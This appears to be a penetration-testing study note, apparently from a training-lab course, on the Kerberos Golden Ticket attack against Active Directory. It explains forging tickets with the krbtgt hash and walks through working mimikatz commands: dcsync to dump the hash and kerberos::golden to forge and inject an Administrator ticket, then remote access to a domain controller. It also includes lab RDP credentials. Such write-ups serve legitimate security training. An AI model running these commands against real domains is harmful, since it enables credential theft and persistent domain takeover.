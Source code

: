 # Golden Ticket

- The **Golden Ticket** attack enables attackers to forge and sign TGTs (Ticket Granting Tickets) using the **krbtgt** account's password hash. When these tickets get presented to an AD server, the information within them will not be checked at all and will be considered valid due to being signed with krbtgt account's password hash. For example, it is possible to sign a ticket for a user that does not exist, such as **DoesNotExist**, have the ticket also say they are a Domain Administrator, and request a TGS (Ticket Granting Service) ticket which enables them to access remote machines. For stealth reasons, it is almost always better to utilize users that exist in the domain. However, putting fake information in the ticket can be a great way to show the impact and the lack of monitoring an organization has around these events. 

- One of the scariest things about the Golden Ticket attack is how often pentesters will gain access to this key; when performing **DCSYNC (using Mimikatz) or SecretsDump (using Impacket)**, the key is KRBTGT's NTLM hash. This account is special because changing its password has to be done twice and cannot be done in rapid succession. The AD Forest must reach full convergence, meaning the change has to replicate across the entire domain before it can be changed again. This is because this key is used for Domain Controllers to authenticate with each other! It should happen within 10 hours, but organizations typically wait 24 hours to minimize the chance of any issue. Within that time Window, if the attacker notices it changed and they grab it again, the process will have to be repeated. 


## Theory

- Following the **TGT request (AS-REQ)**, the Domain Controller sends the user back their TGT. The TGT is a piece of data that contains information about the user. All this information is contained in the **PAC (Privilege Attribute Certificate)**.

- The PAC is copied into each TGS ticket so that service accounts know who they are dealing with. Therefore, this information must be adequately protected so users cannot arbitrarily change it. 

- Domain Controllers use the key of the **krbtgt** account to encrypt TGTs; therefore, it is necessary to know the password of this account to modify a TGT. Within any AD environment, **krbtgt** is the most sensitive and vital account since it ensures that users belong to their appropriate/specific groups. 

- But what happens if an attacker steals the secret of the **krbtgt** account? Well, they can decipher any TGT, thus the PAC within it, arbitrarily modify its information (for example, by making it look like a user belongs to the Domain Admins group) and encrypt it again using the secret of **krbtgt**. This forged ticket is called a **Golden Ticket**. 

- Forging a golden ticket is an excellent technique to maintain persistence within an AD environment. Once full domain compromise is achieved, an attacker can extract the **NTLM hash of the krbtgt account** using **DCSync (or from the NTDS.DIT file using a variety of methods)**. This includes the **domain name, domain SID, name and RID of the account to impersonate (i.e., RID 500 for the built-in administrator account)**, and the RIDs of any groups the account should belong to; once we attain all four pieces of information, a Kerberos ticket can be forged for the target account. 

- Using a **Pass the Ticket** attack, we can import the golden tick to the current session to use tools in the context of the impersonated account. As an attacker, you can forge a ticket to impersonate a sensitive user, who, although privileged in access, may not be a member of heavily monitored groups, such as **Domain Admins and Enterprise Admins**. 


## Windows


Different elements are needed to forge a Golden Ticket: 

1. Domain Name
2. Domain SID
3. Username to Impersonate
4. KRBTGT's hash

- We already know the domain name; let's get the domain's SID by using **Get-DomainSID from PowerView**: 

### Retrieving Domain SID 

- RDP to 10.129.90.25 with user "htb-student" and password "HTB_@cademy_stdnt!"

	xfreerdp /v:10.129.90.25 /u:htb-student /p:'HTB_@cademy_stdnt!' /dynamic-resolution /cert-ignore


	PS C:\Tools> Import-Module .\PowerView.ps1
	PS C:\Tools> Get-DomainSID
	S-1-5-21-1870146311-1183348186-593267556
	

![Get SID](/Kerberos/Ticket-Abuse/images/Get-SID.png) 

- Then, we need to have a compromised **krbtgt** account one way or another to get its NTLM hash. We can use **mimikatz** to forge a Golden Ticket when we have this information. If we compromised an account with DCSync privileges, we can use mimikatz to get the **krbtgt** hash using the following command. 

### Running Mimikatz get the KRBTGT Hash 


	PS C:\Tools> .\mimikatz.exe

	  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
	 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
	 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
	 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
	 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
	  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/
	  

	mimikatz # lsadump::dcsync /user:krbtgt /domain:inlanefreight.local
	

- We now have the **krbtgt** NTLM hash, which is **c0231bd8a4a4de92fca0760c0ba9e7a6**. To impersonate the Administrator account, we can use mimikatz to forge the Golden Ticket as follows: 

### Forging the Golden Ticket


	mimikatz # kerberos::golden /domain:inlanefreight.local /user:Administrator /sid:S-1-5-21-1870146311-1183348186-593267556 /rc4:c0231bd8a4a4de92fca0760c0ba9e7a6 /ptt
	User      : Administrator
	Domain    : inlanefreight.local (INLANEFREIGHT)
	SID       : S-1-5-21-1870146311-1183348186-593267556
	User Id   : 500
	Groups Id : *513 512 520 518 519
	ServiceKey: c0231bd8a4a4de92fca0760c0ba9e7a6 - rc4_hmac_nt
	Lifetime  : 1/14/2024 3:59:03 PM ; 1/11/2034 3:59:03 PM ; 1/11/2034 3:59:03 PM
	-> Ticket : ** Pass The Ticket **

	 * PAC generated
	 * PAC signed
	 * EncTicketPart generated
	 * EncTicketPart encrypted
	 * KrbCred generated

	Golden ticket for 'Administrator @ inlanefreight.local' successfully submitted for current session
	
- As we see on the last line (before exit), the Golden Ticket has been created and submitted for the current session. We can double-check this using the **klist command**.


### List the Golden Ticket in the Current Session

![klist](/Kerberos/Ticket-Abuse/images/klist.png) 

- So now have a valid TGT indicating we are **Administrator** and stating that we belong to several groups, including **Domain Admins**. If we need to request a service, we'll ask for a TGS ticket using this TGT, and a copy of the forged PAC will be embedded in the TGS ticket. For example, if we want to access a server using WinRM, we'll have a remote shell as **Administrator**. 


### Using WinRM with the Golden Ticket to Connect to DCO1

	PS C:\Tools> Enter-PSSession dc01
	

![Admin](/Kerberos/Ticket-Abuse/images/admin.png) 

- And if we come back to our original shell, we can see that we now have a TGS ticket for the **HTTP/dc01 SPN as Administrator**. 


### Reviewing the Ticket information 

![Tickets](/Kerberos/Tucket-Abuse/images/tickets.png) 

